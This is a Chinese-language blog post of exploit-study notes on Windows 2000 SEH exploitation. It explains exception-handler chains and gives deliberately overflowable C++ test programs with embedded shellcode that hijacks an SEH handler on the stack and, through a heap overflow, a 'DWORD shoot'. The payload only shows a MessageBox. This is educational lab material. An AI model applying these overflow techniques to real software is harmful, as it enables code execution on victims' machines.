 ```yaml
---
title: 漏洞学习笔记-008-Windows异常的利用
description: SEH的栈利用和堆利用
slug: exploit-008
date: 2020-10-25 11:32:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


声明：实验环境为 Windows 2000

本文来源：[Moeomu的博客](/p/exploit-008/)

## SEH概述

- SEH是异常处理结构体(Structure Exception Handler)，是Windows异常处理机制采用的重要的数据结构。每个SEH包含两个DWORD指针：SEH链表指针和异常处理函数句柄，共8个字节
- SEH结构存放在栈中
- 线程初始化时，自动向栈中安装一个SEH作为线程默认的异常处理
- 如果程序源代码中使用了`try-except`等异常处理机制，编译器最终通过向当前函数栈帧中安装一个SEH来实现异常处理
- 栈中一般会同时存在多个SEH
- 栈中的多个SEH通过链表指针在栈内由栈顶向栈底串成单项链表，位于链表最顶端的SEH通过TEB0字节偏移处的指针标识
- 异常发生时，操作系统会终端程序，首先从TEB的0偏移处去除距离栈顶最近的SEH使用异常处理函数句柄指向的代码来处理异常
- 当离事故现场最近的异常处理函数运行失败时，将顺着SEH链表依次尝试其它的异常处理函数
- 如果程序安装的所有异常处理函数都不能处理，系统将采用默认的异常处理函数，此函数将弹出错误对话框然后强制关闭程序

## SEH利用思路

- SEH存放在栈内，溢出缓冲区的数据可以淹没SEH
- 将SEH入口改为shellcode起始地址
- 溢出后错误的栈帧或堆块数据会触发异常
- Windows开始处理异常后，将shellcode当作异常处理函数而执行

## SEH的栈利用测试

### NOP测试

#### 代码

```CPP
#include <stdio.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90" // next SEH Record
"\x90\x90\x90\x90" // SE Handler Function Address
"\x90\x90\x90\x90" // Nothing
"\x90\x90\x90\x90" // Nothing
"\x90\x90\x90\x90" // EBP
"\x90\x90\x90\x90" // Return Address
;

DWORD MyExceptionhandler(void)
{
    printf("got an exception, press Enter to kill   process!\n");
    getchar();
    ExitProcess(1);
    return 0;
}

void test(char* input)
{
    char buf[200];
    int zero = 0;
    __asm int 3 // used to break process for debug
    __try
    {
        strcpy(buf, input); // overrun the stack
        zero = 4 / zero; // generate an exception
    }
    __except(MyExceptionhandler()){}
}

void main()
{
    test(shellcode);
}
```

#### 观察

- `0x0012FE98`地址处时shellcode的起始位置
- 当前线程一共安装了3个SEH，离栈顶最近的位于`0x0012FF68`，这是最先调用的SEH
- 我们要覆盖的地址是`0x0012FF6C`，这是处理函数的地址，内容填入ShellCode的起始地址即可

### 实际测试

#### 代码

```CPP
#include <stdio.h>
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90" // Next SEH Record
"\x98\xFE\x12\x00"; // SEH Handler

DWORD MyExceptionhandler(void)
{
    printf("got an exception, press Enter to kill process!\n");
    getchar();
    ExitProcess(1);
    return 0;
}

void test(char * input)
{
    char buf[200];
    int zero=0;
    _try
    {
        strcpy(buf,input); //overrun the stack
        zero=4/zero; //generate an exception
    }
    _except(MyExceptionhandler()){}
}

void main()
{
    test(shellcode);
}

```

#### 观察

- 弹出MessageBox对话框成功

## SEH的堆利用测试

### 实际测试

#### 代码

```CPP
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00" // head of the ajacent free block
"\x88\x06\x30\x00" // 0x00300688 is the address of shellcode in first
// Heapblock
"\x30\xFF\x12\x00"; // target of DWORD SHOOT

DWORD MyExceptionhandler(void)
{
    ExitProcess(1);
    return 0;
}

void main()
{
    HLOCAL h1 = 0, h2 = 0;
    HANDLE hp;
    hp = HeapCreate(0, 0x1000, 0x10000);
    h1 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 200);
    memcpy(h1, shellcode, 0x200); // over flow here, noticed 0x200 means
    //512 !
    __asm int 3 // uesd to break the process
    __try
    {
        h2 = HeapAlloc(hp, HEAP_ZERO_MEMORY, 8);
    }
    __except(MyExceptionhandler()){}
}
```
